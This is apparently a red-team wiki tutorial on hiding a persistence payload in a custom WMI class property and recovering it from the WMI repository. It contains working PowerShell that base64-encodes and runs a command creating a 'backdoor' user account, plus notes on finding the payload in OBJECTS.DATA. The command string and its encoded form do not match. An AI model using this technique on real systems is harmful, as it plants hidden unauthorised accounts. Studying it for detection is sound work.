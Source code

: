 ```yaml
---
description: >-
  Exploring WMI as a data storage for persistence by leveraging WMI classes and
  their properties.
---
```


# WMI as a Data Storage

## Execution

Creating a new WMI class with a property `EvilProperty` that will later store the payload to be executed:

```csharp
$evilClass = New-Object management.managementclass('root\cimv2',$null,$null)
$evilClass.Name = "Evil"
$evilClass.Properties.Add('EvilProperty','Tis notin good sir')
$evilClass.Put()

Path          : \\.\root\cimv2:Evil
RelativePath  : Evil
Server        : .
NamespacePath : root\cimv2
ClassName     : Evil
IsClass       : True
IsInstance    : False
IsSingleton   : False
```

We can see the `Evil` class properties:

```csharp
([wmiclass] 'Evil').Properties

Name       : EvilProperty
Value      : Tis notin good sir
Type       : String
IsLocal    : True
IsArray    : False
Origin     : Evil
Qualifiers : {CIMTYPE}
```

Checking WMI Explorer shows the new `Evil` class has been created under the `root\cimv2` namepace - note the `EvilProperty` can also be observed:

![](../../../.gitbook/assets/wmi-data-storage-newclass.png)

### Storing Payload

For storing the payload inside the `EvilProperty`, let's create a base64 encoded powershell command that adds a backdoor user with credentials `backdoor:backdoor`:

```csharp
$command = "cmd '/c net user add backdoor backdoor /add'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

# $encodedCommand = YwBtAGQAIAAvAGMAIAAnAG4AZQB0ACAAdQBzAGUAcgAgAGIAYQBjAGsAZABvAG8AcgAgAGIAYQBjAGsAZABvAG8AcgAgAC8AYQBkAGQAJwA=
```

Updating `EvilProperty` attribute to store `$encodedCommand`:

```csharp
$evilClass.Properties.Add('EvilProperty', $encodedCommand)
```

Below is the same as above, just in a screenshot:

![](../../../.gitbook/assets/wim-setting-payload.png)

### Real Execution

```csharp
powershell.exe -enc $evilClass.Properties['EvilProperty'].Value
```

Executing the payload stored in the property of a WMI class's property - note that the backdoor user has been successfully added:

![](../../../.gitbook/assets/wmi-payload-executed.png)

If we commit the `$evilClass` with its `.Put()` method, our payload will get stored permanently in the WMI Class. Note how a new "Evil" class' properties member shows the payload we have commited:

![](../../../.gitbook/assets/wmi-payload-commited.png)

## Observations

Using the WMI Explorer, we can inspect the class' definition which is stored in`%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA` 

The file contains all the classes and other relevant information about those classes. In our case, we can see the `EvilProperty` with our malicious payload inside:

![](../../../.gitbook/assets/wmi-evil-mof.png)

When inspecting the OBJECTS.DATA with a hex editor, it is possible \(although not very practical nor user friendly\) to find the same data - note that the screenshot is referring to the state of the Evil class at the very beginning of its creation as this is when I took the screenshot:

![](../../../.gitbook/assets/wmi-objects-data.png)

